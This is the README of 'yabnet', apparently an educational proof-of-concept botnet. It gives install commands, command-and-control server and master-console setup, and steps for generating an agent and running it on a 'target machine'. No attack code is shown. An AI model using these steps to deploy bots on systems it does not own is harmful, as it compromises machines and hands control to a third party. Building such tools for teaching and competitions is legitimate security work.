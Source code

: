 # yabnet
Yet Another Botnet, PoC created for educational purposes only.

## Disclaimer
Yabnet is a proof of concept tool which is only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Installation 

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

`cd /opt`
`git clone https://github.com/choisg/yabnet.git`
`cd /opt/yabnet`
`chmod +x install.sh`
`./install.sh`

## Operation 

**Server setup**

`python3 /server/server.py`

**Agent setup**

`python3 ./agent/generator.py -i <server_ipaddress> -p <server_port>`
`Example) python3 ./agent/generator.py -i 192.168.204.128 -p 5000`

`<Transfer ./agent/dist/agent_deploy_staticx to the target machine and run it>`

**Master setup**

After server and the agent is setup, launch the master console.
`python3 /master/master.py`
`console# login -r localhost -u user -p pass`
`console# list` 

`< All master console commands have help flag>`
`Example) push -h`

